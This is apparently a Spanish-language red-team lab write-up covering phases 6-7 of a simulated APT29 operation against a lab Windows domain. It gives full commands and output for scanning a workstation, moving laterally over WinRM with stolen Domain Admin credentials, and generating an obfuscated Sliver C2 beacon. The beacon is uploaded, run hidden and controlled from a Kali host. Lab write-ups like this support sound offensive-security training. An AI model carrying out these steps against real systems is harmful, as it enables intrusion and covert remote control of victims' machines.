







# Lateral Movement & C2 — Operación GHOST FOREST
## Fases 6-7 — Lateral Movement + C2 Sliver
**Operación:** GHOST FOREST | **Adversario:** APT29 | **Framework:** MITRE ATT&CK v14  
**Operador:** Adrián Camacho | **Fecha:** 13/05/2026  
**Objetivo:** WKSTN-01 (10.0.2.8) — atackcorp.local

---

## FASE 6 — Lateral Movement: WKSTN-01

**Táctica MITRE:** TA0008 — Lateral Movement  
**Técnica:** T1021.006 — Remote Services: Windows Remote Management  
**Herramientas:** Nmap, Evil-WinRM

### Contexto táctico

Con `backup_svc` como Domain Admin sobre `atackcorp.local`, APT29 procede a moverse lateralmente hacia WKSTN-01 — el segundo objetivo del entorno. El movimiento lateral se realiza via WinRM usando las credenciales de DA ya comprometidas, replicando el comportamiento sigiloso característico de APT29 que prioriza protocolos legítimos de administración remota.

---

### 6.0 — Reconocimiento de WKSTN-01
**Técnica MITRE:** T1046 — Network Service Discovery  
> 📸 Captura: 

```bash
# Port discovery
nmap -p- --min-rate 5000 10.0.2.8 \
  -oA ~/Red-Team-Labs/Phase-01-Fundamentals/Lab-01-Ghost-Forest/nmap/wkstn01

# Service version detection
nmap -sC -sV -p 135,5040,5985 10.0.2.8 \
  -oA ~/Red-Team-Labs/Phase-01-Fundamentals/Lab-01-Ghost-Forest/nmap/wkstn01
```

**Puertos identificados:**

| Puerto | Servicio | Versión | Relevancia |
|--------|---------|---------|-----------|
| 135/tcp | msrpc | Microsoft Windows RPC | — |
| 5040/tcp | unknown | — | — |
| 5985/tcp | http | Microsoft HTTPAPI 2.0 | **WinRM ← vector de ataque** |

**SMB (445) y RDP (3389) filtrados** por Windows Firewall — WinRM es el único vector de acceso remoto disponible.

**Nota de infraestructura:** Durante esta fase se detectó que Kali perdía conectividad con WKSTN-01 por problema de routing. Se configuró IP estática permanente via NetworkManager:
```bash
sudo nmcli con add type ethernet con-name "LabRedTeam" ifname eth0 \
  ipv4.method manual ipv4.addresses 10.0.2.9/24 \
  ipv4.gateway 10.0.2.1 ipv4.dns 10.0.2.10 \
  connection.autoconnect yes
sudo nmcli con up LabRedTeam
```

---

### 6.1 — Acceso remoto via WinRM
**Técnica MITRE:** T1021.006 — Remote Services: Windows Remote Management  
> 📸 Captura: 

```bash
evil-winrm -i 10.0.2.8 -u backup_svc -p 'Backup2024!'
```

**Resultado:**
```
Evil-WinRM shell v3.9
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\backup_svc\Documents>
```

**Verificación de identidad y privilegios:**
```powershell
whoami
# atackcorp\backup_svc

whoami /groups
```

**Grupos confirmados en WKSTN-01:**

| Grupo | SID | Estado |
|-------|-----|--------|
| BUILTIN\Administradores | S-1-5-32-544 | ✅ Admin local |
| ATACKCORP\Admins. del dominio | S-1-5-21-...-512 | ✅ Domain Admin |
| Nivel obligatorio alto | S-1-16-12288 | High integrity |

---

### 6.2 — Verificación del objetivo
> 📸 Captura: 

```powershell
hostname
# WKSTN-01

ipconfig
# IPv4: 10.0.2.8
# Gateway: 10.0.2.1
```

**Criterio de éxito Fase 6:** ✅ Shell interactiva como Domain Admin en WKSTN-01.

---

## FASE 7 — C2 Establishment: Sliver

**Táctica MITRE:** TA0011 — Command and Control  
**Técnicas:**
- T1071.001 — Application Layer Protocol: Web Protocols
- T1573.002 — Encrypted Channel: Asymmetric Cryptography
- T1587.001 — Develop Capabilities: Malware

**Herramienta:** Sliver C2 v1.7.3 (BishopFox)

### Contexto táctico

APT29 es conocido por desplegar infraestructura C2 encubierta usando canales HTTPS que se mimetizan con tráfico web legítimo. Sliver replica este comportamiento con soporte para beacons asíncronos, cifrado mTLS/HTTPS y obfuscación de símbolos. El beacon se despliega exclusivamente en WKSTN-01 — nunca en el DC — para minimizar la detección en el activo más crítico.

---

### 7.1 — Instalación y arranque de Sliver
> 📸 Captura: 

```bash
# Instalación
curl https://sliver.sh/install | sudo bash

# Arrancar servicio
sudo systemctl start sliver
sudo systemctl status sliver

# Conectar cliente
sliver
```

**Configuración del listener HTTPS:**
```
sliver > https -L 10.0.2.9 -l 443
[*] Starting HTTPS :443 listener ...
[+] Successfully started job #1

sliver > jobs
ID  Name   Protocol  Port
1   https  tcp       443
```

**Servidor:** v1.7.3 — Compiled 2026-02-24 ✅

---

### 7.2 — Generación del beacon
> 📸 Captura: 

```
sliver > generate beacon \
  --http 10.0.2.9:443 \
  --os windows \
  --arch amd64 \
  --format exe \
  --save /tmp/beacon.exe
```

**Resultado:**
```
[*] Generating new windows/amd64 beacon implant binary (1m0s)
[*] Symbol obfuscation is enabled
[*] Build completed in 2m37s
[*] Implant saved to /tmp/beacon.exe
```

| Característica | Valor |
|---------------|-------|
| OS target | windows/amd64 |
| Protocolo C2 | HTTPS |
| C2 server | 10.0.2.9:443 |
| Obfuscación | Symbol obfuscation enabled |
| Tamaño | ~37 MB |

---

### 7.3 — Despliegue en WKSTN-01
> 📸 Captura: 

```bash
# Conectar a WKSTN-01
evil-winrm -i 10.0.2.8 -u backup_svc -p 'Backup2024!'
```

```powershell
# Subir beacon al directorio de trabajo
upload /tmp/beacon.exe

# Verificar
dir
# beacon.exe  37107712 bytes  5/13/2026 10:02 AM

# Ejecutar en background (Hidden)
Start-Process -FilePath ".\beacon.exe" -WindowStyle Hidden
```

---

### 7.4 — Beacon conectado
> 📸 Captura: 

```
[*] Beacon be691c17 EASY_PROFIT - 10.0.2.8:60303 (WKSTN-01) - windows/amd64 - Wed, 13 May 2026 10:03:22 CEST
```

---

### 7.5 — Interacción con el beacon
> 📸 Captura: 

```
sliver > beacons
ID        Name         Transport  Hostname   Username              OS             Last Check-In  Next Check-In
be691c17  EASY_PROFIT  http(s)    WKSTN-01   ATACKCORP\backup_svc  windows/amd64  1m16s          9s

sliver > use be691c17
[*] Active beacon EASY_PROFIT (be691c17-a8c1-4624-8688-16feede0502d)

sliver (EASY_PROFIT) > whoami
[*] Tasked beacon EASY_PROFIT
[+] Current Token ID: ATACKCORP\backup_svc

sliver (EASY_PROFIT) > pwd
[+] C:\Users\backup_svc\Documents

sliver (EASY_PROFIT) > ps
[+] PID 0 - [System Process]
[+] PID 4 - System
```

**Criterio de éxito Fase 7:** ✅ Sesión Sliver activa desde WKSTN-01 hacia Kali con beacon asíncrono HTTPS.

---

## Resumen Fases 6-7

```
LATERAL MOVEMENT & C2 — Estado final
════════════════════════════════════════════════════════

WKSTN-01 (10.0.2.8)
  Shell Evil-WinRM      → atackcorp\backup_svc (DA) ✅
  Beacon Sliver         → EASY_PROFIT (be691c17) ✅
  Protocolo C2          → HTTPS :443 ✅
  Check-in interval     → ~60s ✅
  Process Integrity     → High ✅

TÉCNICAS MITRE EJECUTADAS:
  T1046     → Network Service Discovery (Nmap WKSTN-01)
  T1021.006 → Remote Services: WinRM (lateral movement)
  T1071.001 → C2 via HTTPS
  T1573.002 → Encrypted Channel (Sliver mTLS)
  T1587.001 → Beacon generado con obfuscación
  T1204     → Ejecución via Start-Process Hidden
```

---

**Siguiente fase:** [privilege_escalation.md](privilege_escalation.md) — Fase 8: Escalada a SYSTEM en WKSTN-01